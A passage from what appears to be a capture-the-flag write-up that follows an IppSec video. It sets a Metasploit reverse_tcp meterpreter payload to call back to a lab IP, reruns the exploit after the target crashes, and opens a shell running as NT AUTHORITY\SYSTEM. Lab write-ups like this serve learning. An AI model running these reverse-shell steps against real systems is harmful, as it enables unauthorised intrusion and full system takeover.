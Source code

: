![](https://paper-attachments.dropbox.com/s_9B8ABAF92E8BD4C79A9AECC7328DE9A6C794C02AEC511B6D2489E66CA14CED53_1556949698641_image.png)

    run

![](https://paper-attachments.dropbox.com/s_9B8ABAF92E8BD4C79A9AECC7328DE9A6C794C02AEC511B6D2489E66CA14CED53_1556949739553_image.png)

 *since we didnt set a payload metasploit opted to use* `*windows/meterpreter/reverse_tcp*` which is not configured correctly to the LHOST and LPORT

    set LHOST 10.10.14.17
    run

![](https://paper-attachments.dropbox.com/s_9B8ABAF92E8BD4C79A9AECC7328DE9A6C794C02AEC511B6D2489E66CA14CED53_1556949821653_image.png)

*an error occured and the box crashed so he re did all the step to this point and re-ran the exploit*

![](https://paper-attachments.dropbox.com/s_9B8ABAF92E8BD4C79A9AECC7328DE9A6C794C02AEC511B6D2489E66CA14CED53_1556950126744_image.png)

connect to shell

    shell
    whoami

![](https://paper-attachments.dropbox.com/s_9B8ABAF92E8BD4C79A9AECC7328DE9A6C794C02AEC511B6D2489E66CA14CED53_1556950163710_image.png)

*operating at nt authority/system!*

#HAILippsec


----------

If you don’t know who IppSec is check him out at:

Youtube: https://www.youtube.com/channel/UCa6eh7gCkpPo5XXUDfygQQA
Twitter: https://twitter.com/ippsec

